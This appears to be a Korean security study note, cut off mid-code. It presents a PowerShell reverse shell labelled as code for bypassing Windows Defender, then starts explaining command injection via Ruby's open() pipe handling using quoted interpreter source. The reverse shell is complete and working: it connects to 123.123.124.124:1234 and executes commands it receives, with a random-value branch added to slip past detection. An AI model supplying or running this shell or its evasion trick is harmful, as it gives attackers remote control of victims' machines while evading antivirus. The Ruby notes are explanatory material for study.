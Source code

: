 ### 리버스 셸

윈도우는 **윈도우 디펜더(Windows Defender)**가 악성 스크립트를 감지하고 실행하지 않음 

- 우회 코드

```python
$client = New-Object System.Net.Sockets.TCPClient("123.123.124.124",1234);
$x = Get-Random;
if ($x -ge 1) {
    $stream = $client.GetStream();
    [byte[]]$bytes = 0..65535|%{0};
    while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
        $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
        $sendback = (iex $data 2>&1 | Out-String );
        $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
        $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
        $stream.Write($sendbyte,0,$sendbyte.Length);
        $stream.Flush()
    };
    $client.Close();
} else {
    $client.Close();
}
```

`Get-Random`  메소드를 이용하여 무작위 값 생성 후, 해당 값이 1보다 큰 값이지 확인한 뒤 리버스 셸 코드 실행 

## Command Injection Vulnerability

### ruby & perl

- open 함수 : 파일명이 전달되는 경우 파일을 읽거나 쓸 수 있음. 첫번째 인자가 `|` 인 경우 pipe_open 함수에서 처리
    - pipe_open_s 실행 과정 : `open` 함수의 코드
    
    ```python
    rb_define_global_function("open", rb_f_open, -1);
    static VALUE rb_f_open(int argc, VALUE *argv, VALUE _) {
      ID to_open = 0;
      int redirect = FALSE;
      if (argc >= 1) {
        CONST_ID(to_open, "to_open");
        if (rb_respond_to(argv[0], to_open)) {
          redirect = TRUE;
        } else {
          VALUE tmp = argv[0];
          FilePathValue(tmp);
          if (NIL_P(tmp)) {
            redirect = TRUE;
          } else {
            VALUE cmd = check_pipe_command(tmp);
            if (!NIL_P(cmd)) {
              argv[0] = cmd;
              return rb_io_s_popen(argc, argv, rb_cIO);
            }
          }
        }
      }
      ...
    }
    static VALUE check_pipe_command(VALUE filename_or_command) {
      char *s = RSTRING_PTR(filename_or_command);
      long l = RSTRING_LEN(filename_or_command);
      char *e = s + l;
      int chlen;